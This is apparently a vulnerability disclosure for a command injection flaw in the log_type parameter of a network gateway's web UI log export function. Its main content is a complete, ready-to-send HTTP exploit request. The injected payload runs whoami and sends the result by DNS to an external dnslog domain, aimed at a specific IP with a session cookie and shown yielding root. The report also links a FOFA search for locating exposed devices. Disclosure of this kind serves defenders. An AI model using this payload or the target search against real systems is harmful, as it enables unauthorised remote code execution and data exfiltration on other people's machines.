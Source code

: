 In `webui/modules/log/fw_security.mds` after accepting the log_type parameter, without any filtering, it is directly spliced into the $table variable, and passed into exec, resulting in code execution.
![image](https://github.com/night-0p/anh/assets/54882616/d22c2473-c774-4232-b709-513dd3f40d31)
test steps:   
1，First obtain a dnslog domain name  through https://dig.pm/   
2，send exp:   
```
GET /webui/?g=log_fw_export&log_type=%26/bin/?ing${IFS}`whoami`.aad9181f4b.ipv6.1433.eu.org. HTTP/1.1
Host: 202.60.226.161
Cookie: USGSESSID=97ee993147299f7a38dab171b08fed44
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
The following is the result of executing whoami. root authority.
<img width="1374" alt="image" src="https://github.com/night-0p/anh/assets/54882616/0d1d269d-3224-4dc8-9c7f-d8d9c6290305">
this Website fingerprinting:
https://fofa.info/result?qbase64=YXBwPSLlronmgZLkv6Hmga8t5piO5b6h5a6J5YWo572R5YWzIg%3D%3D this version:
![image](https://github.com/night-0p/anh/assets/54882616/b76df65c-545c-4cc0-85df-99607f4095dc)
